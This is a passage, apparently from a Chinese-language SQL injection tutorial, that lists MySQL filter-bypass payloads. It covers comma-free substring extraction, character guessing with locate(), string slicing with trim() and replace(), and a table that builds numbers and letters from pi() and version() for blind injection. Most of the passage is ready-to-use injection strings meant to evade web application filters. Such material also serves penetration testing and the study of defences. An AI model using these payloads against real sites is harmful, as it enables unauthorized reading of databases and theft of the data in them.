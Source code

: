 不适用逗号来获取

```
' and substr(data from 1 for 1) = 'a'#
```

同样也可以使用一下比较少见的函数来尝试绕过

```
lpad(data,1,space(1)) // lpad('hi',4,'?') = '??hi'
rpad(data,1,space(1)) // rpad('hi',4,'?') = 'hi??'
left(data,1)
reverse(right(reverse(data),1))
insert(insert(version(),1,0,space(0)),2,222,space(0))
```

有些函数有类似搜索匹配的功能

```
'-if(locate('f',data),1,0)#
'-if(locate('fo',data),1,0)#
'-if(locate('foo',data),1,0)#
instr(), position()
```

使用函数进行字符串的切割

```
length(trim(leading 'a' FROM data)) # length will be shorter
length(replace(data, 'a', '')) # length will be shorter
```

2种方式都是相同效果

# 0x04 注入时主要使用的一些东西

***

```
1个控制流程操作(select, case, if(), ...)
1个比较操作(=, like, mod(), ...)
1个字符串的猜解(mid(), left(), rpad(), …)
1个字符串生成(0x61, hex(), conv())
```

使用`conv([10-36],10,36)`可以实现所有字符的表示

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T
```
